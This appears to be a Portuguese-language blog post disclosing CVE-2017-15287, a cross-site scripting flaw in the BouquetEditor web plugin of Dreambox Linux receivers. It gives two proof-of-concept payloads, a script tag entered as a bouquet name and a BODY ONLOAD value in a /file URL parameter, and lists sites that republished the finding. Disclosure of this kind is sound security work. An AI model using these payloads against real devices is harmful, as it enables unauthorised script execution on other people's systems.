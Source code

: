 ```yaml
---
title: "[CVE-2017-15287] Vulnerability XSS - Dreambox"
date: 2017-10-13 04:45:59 Z
categories:
- cve
layout: post
description: 'Vulnerabilty: Cross-site scripting (XSS) in plugin BouquetEditor'
---
```


Prova de Conceito (Proof of Concept - PoC), que virou o [CVE-2017-15287](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-15287){:target="_blank" rel="noopenner noreferrer"} por Thiago "THX".

### Sobre o Software:

O Dreambox é um produto da Dream-Multimedia-TV (DMM), que é desenvolvido por receptores baseados em Linux sob o nome Dreambox.

### As vulnerabilidades:

#### Vulnerabilidade 1

O XSS está presente em duas áreas, sendo que na primeira área a vulnerabilidade se encontra em um WebPlugin chamado "BouquetEditor":

```
URL: http://IP:PORT/bouqueteditor/
```

Passos:

1. Na aba Bouquets, ira adicionar uma nova bouquet

![Passo 1]({{ site.url }}/images/posts/1.png)

2. Assim, irar colocar o script:

```
(<script>alert('XSS')</script>)
```

![Passo 2]({{ site.url }/images/posts/2.png)

3. Vulnerability XSS

![Passo 3]({{ site.url }}/images/posts/3.png)

#### Vulnerabilidade 2

A segunda falha consiste em colocar a variavel abaixo depois da url (http://IP:PORT)

```
Variavel :/file?file=%3CBODY%20ONLOAD=alert(%27XSS%27)%3E
```

![XSS via endereço]({{ site.url }}/images/posts/4.png)

### Compartilhamentos:

Sites que já compatilharam o CVE:

[0day](https://fr.0day.today/exploit/description/28784){:target="_blank" rel="noopenner noreferrer"}

[CERTSI](https://www.certsi.es/alerta-temprana/vulnerabilidades/cve-2017-15287){:target="_blank" rel="noopenner noreferrer"}

[CXSecurity](https://cxsecurity.com/issue/WLB-2017100103){:target="_blank" rel="noopenner noreferrer"}

[Exploit Database](https://www.exploit-db.com/exploits/42986/){:target="_blank" rel="noopenner noreferrer"}

[Exploit Kitploit](http://exploit.kitploit.com/2017/10/dreambox-plugin-bouqueteditor-cross.html){:target="_blank" rel="noopenner noreferrer"}

[HackerTor](https://hackertor.com/2017/10/12/na-cve-2017-15287-there-is-xss-in-the-bouqueteditor-webplugin-for/){:target="_blank" rel="noopenner noreferrer"}

[NVD](https://nvd.nist.gov/vuln/detail/CVE-2017-15287){:target="_blank" rel="noopenner noreferrer"}

[PacketStorm](https://packetstormsecurity.com/files/144604/dreambox200be-xss.txt){:target="_blank" rel="noopenner noreferrer"}

[Security Database](https://www.security-database.com/detail.php?alert=CVE-2017-15287&utm_source=feedburner&utm_medium=feed&utm_campaign=Feed:+Last100Alerts+(Security-Database+Alerts+Monitor+:+Last+100+Alerts)){:target="_blank" rel="noopenner noreferrer"}

[SecNews24](https://www.secnews24.com/2017/10/12/cve-2017-15287-there-is-xss-in-the-bouqueteditor-webplugin-for-dream-multimedia-dreambox-devices-as-demo/){:target="_blank" rel="noopenner noreferrer"}

[TSecurity](https://tsecurity.de/de/215878/Reversing-Engineering/Exploits/Dream-Multimedia-Dreambox-/file-Cross-Site-Scripting/){:target="_blank" rel="noopenner noreferrer"}

[VulDB](https://vuldb.com/fr/?id.107825){:target="_blank" rel="noopenner noreferrer"}
